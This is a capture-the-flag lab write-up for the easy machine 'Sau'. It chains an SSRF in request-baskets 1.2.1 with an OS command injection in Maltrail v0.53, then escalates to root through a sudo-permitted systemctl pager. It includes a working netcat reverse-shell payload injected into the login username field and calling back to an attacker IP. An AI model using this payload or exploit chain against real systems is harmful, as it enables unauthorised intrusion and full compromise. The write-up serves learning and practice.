

# Sau

#### _January 6th, 2024_

#### Difficulty: Easy

---
 

I started working on this machine by running a quick nmap scan. The results show 3 open and 1 filtered port. 

After that I ran a full port scan to try to find any hidden non-default ports and the service versions, but I did not gain any new information. 

I was not able to find a web application running on the default 80 port, but traversing to the port 55555 on a browser gave me access to a web application. On the bottom of the web application we can see that it is powered by request-baskets 1.2.1. 

The application itself seems to be a tool to collect and inspect HTTP requests. You can set the responses the server sends back to the requester and if you are administrator, you can inspect all of the baskets created on the application. After understanding the principles of the application I started searching for any public vulnerabilities this particular version of requets-baskets has.

After a brief search I stumbled upon CVE-2023-27163, which states that request-baskets up to v1.2.1 was discovered to contain a Server-Side Request Forgery (SSRF) via the component /api/baskets/{name}. 

Using a PoC I found I was able to forge a test SSRF payload on the /api/baskets endpoint, which is used to create a basket, and establish a connection to my local netcat listener.

Now it was time to craft a request that gives me access to previously unaccessible resources. After reading around request-baskets documentation, I had somewhat of a picture of how this could be achieved. Using the vulnerability found before and our nmap enumeration, setting the forward-url parameter to http://127.0.0.1:80/ and the proxy_response to true should allow us to: send a request to the before unaccessible HTTP port throught our basket "proxy" and pass the response back to us. 

Traversing to my newly created basket, I was greeted with a response from the forward-url address. The port seems to be running Maltrail v0.53

After gathering information about Maltrail v0.53 I was able to find OS Command Injection vulnerability explained in detail here The way the exploit works is that we should be able to inject OS Command on the username parameter when trying to log in to the application. Thus, we need to set the forwarded route of our request to http://127.0.0.1:80/login.

Using the PoC example I was able to create a payload that executes whoami command on the target machine and pipe it to my attacking machine using netcat. 

With this method I was able to grab the user flag. Now it was time to start working on gaining a better shell access, because using this method it could be a bit tedious having to send every command through using curl.

Using hacktricks as a source I was able to create a payload for reverse shell. The payload is as follows:

username=;`nc 10.10.14.93 1337| /bin/bash | nc 10.10.14.93 54321`

Where bash commands are piped from port 1337 to the target bash, and the output of the commands are piped to my listener at port 54321. Using this method I was able to have fairly nice (albeit not optimal having to use two ports) shell and decided to start to enumerate the target further. 

After enumerating the target for a while there was one thing that got my attention as potential vulnerability. Running the command sudo -l prints the following output: 

Meaning that I am able to run ../systemctl status trail.service as root. Looking at GTFOBins we see that systemctl can be used for privilege escalation in numerous ways. In this case, because we can only do a certain systemctl call, I went for the last option (!sh). This method requires me to run the systemctl status -command first. After that simply running !sh invokes bourne shell as root:

Note: If you get 'event not found' error, simply run set +H command.

